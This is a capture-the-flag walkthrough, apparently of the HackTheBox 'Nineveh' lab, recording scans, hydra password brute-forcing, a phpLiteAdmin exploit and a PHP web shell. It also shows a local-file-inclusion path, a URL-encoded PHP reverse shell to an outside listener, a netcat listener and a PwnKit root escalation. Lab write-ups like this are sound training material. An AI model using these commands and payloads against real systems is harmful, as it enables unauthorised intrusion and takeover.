 ![[Pasted image 20240720105615.png]]

Ping
```
ping 10.10.10.43
```
![[Pasted image 20240620160700.png]]

Nmap Default Scan
```
nmap 10.10.10.43 -oN dnmap
```
![[Pasted image 20240620160806.png]]

Nmap Script and Service Scan
```
nmap 10.10.10.43 -sC -sV -A -oN snmap
```
![[Pasted image 20240620161005.png]]

Nmap All Port Scan
```
nmap 10.10.10.43 -p- --open -T5 -oN anmap
```
![[Pasted image 20240620161658.png]]

On port 443
https://10.10.10.43
![[Pasted image 20240620161843.png]]

On Port 80
http://10.10.10.43
![[Pasted image 20240620161740.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240620161624.png]]

http://10.10.10.43/department
![[Pasted image 20240620161757.png]]

Source page
![[Pasted image 20240620162028.png]]
So we can assume the mysql is installed on server and there is a user named **amrois**

Will try to do sql injection using the gathered information
But sql didn't work

Tried brute force with user amrois, no luck

Will try brute force with user admin
Captured login form
![[Pasted image 20240620163851.png]]

Brute force using hydra's http post form
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=^USER^&password=^PASS^:Invalid Password!'
```
![[Pasted image 20240620164151.png]]
Found valid creds **admin:1q2w3e4r5t**




Successfully logged in as Admin 
![[Pasted image 20240620164438.png]]

Notes
![[Pasted image 20240620165803.png]]

After some enumeration, I can't progress further 

Will Enumerate port 443
```
gobuster dir -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster443.txt
```
![[Pasted image 20240620165858.png]]

https://10.10.10.43/db
![[Pasted image 20240620170009.png]]
We can see phpLiteAdmin version, will search for any public exploit.

Found one https://www.exploit-db.com/exploits/24044
![[Pasted image 20240620170135.png]]

Before that we need to find password to login, will use hydra this time for https-post-form
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.'
```
![[Pasted image 20240620171205.png]]

Logged in as admin
![[Pasted image 20240620171302.png]]

Now will follow the steps in the exploit https://www.exploit-db.com/exploits/24044
![[Pasted image 20240620171355.png]]

Following the steps
![[Pasted image 20240620175521.png]]
Created the database named hack.php and table named pwn and the filed 1

Now have to insert malicious php code to get RCE
```
<?php echo system($_REQUEST ["cmd"]); ?>
<?php echo system($_REQUEST ["cmd"]); ?>
```
![[Pasted image 20240620180014.png]]

 We can RCE Now
```
 http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../../../var/tmp/hack.php&cmd=id
```
![[Pasted image 20240620180907.png]]

Will get reverse shell, using php reverse shell with url enconding
```
10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../../../var/tmp/hack.php&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.6%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
![[Pasted image 20240620181049.png]]

Got reverse shell and upgraded my shell using python
```
rlwrap nc -nvlp 4444
```
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240620181120.png]]

Can't read user.txt
![[Pasted image 20240620181314.png]]

Will jump to Privilege Escalation......!

We can't see our sudo permissions, it is asking password
![[Pasted image 20240620181440.png]]

Will check for SUID binaries
```
find / -perm -u=s -type f 2>/dev/null
```
![[Pasted image 20240620181556.png]]
We can se pkexec, will check its version

```
pkexec --version
```
![[Pasted image 20240620181707.png]]
Running vulnerable Version, will try PwnKit

Transferring PwnKit to target machine
```
wget 10.10.14.6/PwnKit
```
![[Pasted image 20240620182101.png]]

Change permissions and execute the binary
```
chmod +x PwnKit
```
```
./PwnKit
```
![[Pasted image 20240620182143.png]]
Coool..! We ARe Ro0t

**root.txt**
![[Pasted image 20240620182513.png]]

User.txt
![[Pasted image 20240620182620.png]]


Done with Nineveh.....:)
